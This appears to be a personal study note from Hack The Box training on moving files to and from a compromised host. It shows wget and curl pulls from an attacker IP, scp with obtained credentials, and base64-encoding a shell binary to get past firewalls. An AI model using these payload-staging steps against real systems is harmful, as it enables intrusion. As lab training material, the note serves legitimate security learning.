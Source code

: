 Transferring files to the remote server such as enumeration scripts or exploits or trnasfer data back to out attack host. While tools like Metasploit with a Meterpreter shell allow us to user the Upload command to upload a file, we need to learn methods to transfer files with a standard reverse shell.

---
## Using wget

1) running a python HTTP server on our machine and then using wget or cURL to download the files on the remote host. First, we go into the directory that contains the file we need to transfer and run a python http server in it.
```
kwc0827@htb[/htb]$ cd /tmp
kwc0827@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
The server above serves as listening server on our machine, we can download the file on the remote host that we have code execution on:

```
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```
Note that we used IP 10.10.14.1 and the port out Python server runs on 8000. If the remote server does not have wget, we can use cURL to download the file. 

```
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```
-o flag is used to specify the output file name.

----
## Using SCP

Another method is using scp, granted we have obtained ssh user credentials on the remote host
```
kwc0827@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```
Specified the local file name after scp, and the remote directly will be save to after the :.

----
## Using Base 64
In some cases, might not be able to transfer the file. The remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to base 64 encode the file into base 64 format, and then we can paste the base 64 string on the remote server and decode it. For example, if we wanted to transfer a binary file called shell, we can base 64 encode it as follows,

```
kwc0827@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```
Here, the shell is input file, being processed by the base 64 command. -w option specifices the line width for the output. Therefore, -w 0 disables line wrapping, meaning the entire base 64 encoded content is written as a single continuous line. By default, it wraps with 76 characters.

Now, we can copy this base 64 string, go to the remote host, and use base 64 -d to decode it, and pipe the output into a file.

```
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

---
## Validating File Transfers
To validate the format of a file, we can run the file command on it
```
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header

```
When file command on the shell file, it says it is an ELF binary, meaning that we successfully transferred it. To ensure that we did not mess up the file during the encoding/decoding process, we can check its md 5 hash. On our machine, we can run md 5 sum on it.
```
kwc0827@htb[/htb]$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```
Now we can go to the remote server and run the  same command on the file we transferred

```
user@remotehost$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```
Both file have the same md 5 hash, meaning the file was tranferred correctly. 